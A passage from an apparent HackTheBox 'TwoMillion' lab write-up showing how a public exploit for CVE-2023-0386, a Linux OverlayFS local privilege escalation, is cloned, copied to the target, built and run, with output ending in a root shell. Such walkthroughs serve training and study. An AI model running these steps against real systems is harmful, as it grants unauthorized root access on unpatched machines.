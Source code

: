 In GitHub, there's a bunch of exploits for this CVE. I've used [this one](https://github.com/xkaneiki/CVE-2023-0386).  To gain root access, do the following steps:

- Clone the repo to our local machine:

```shell
git clone https://github.com/xkaneiki/CVE-2023-0386
```

- Transfer the files to the remote host:

```shell
scp -r ./CVE-2023-0386 admin@2million.htb:/tmp
```

- Login in two different `ssh` sessions:

```shell
(session1) ssh admin@2million.htb
(session2) ssh admin@2million.htb
```

- Enter in the directory and build the exploit:

```shell
(session1) cd /tmp/CVE-2023-0386 && make all
(session2) cd /tmp/CVE-2023-0386
```

- In `session1`, run the `fuse` binary:

```shell
(session1) ./fuse ./ovlcap/lower ./gc
```

- In `session2`, the `exp`: 

```shell
(session2) ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Jun 11 18:56 .
drwxr-xr-x 6 root   root     4096 Jun 11 18:56 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!

root@2million:/tmp/CVE-2023-0386 # 
```

Thanks for reading and Happy Hacking!

## Appendix A: How do we even got a shell?

As mentioned in the <a href="#exploitation">Exploitation</a> section, one of the possibilities to generate a `.ovpn` file is through `openssl`. But, behind the cameras, how we managed to exploit this code?

Let's access the web server directory on the server:


[^1]: It's possible to bruteforce directories too, but all links are available through crawling and javascript analysis. If you want to **speed things up**, use the `-jc/-js-crawl` option in katana. 
[^2]: The responses are always equal to the "Invalid Code" response, even with Boolean Based techniques. 
[^3]: The `ovpn` file contains a subdomain to connect: `edge-eu-free-1.2million.htb`, on port 1337. This port is closed. 
[^4]: The `10.10.14.38` is my local address of the real HackTheBox VPN (tun0). 
[^5]: To use the web-server in your local machine, make sure to create the database and tables of the application.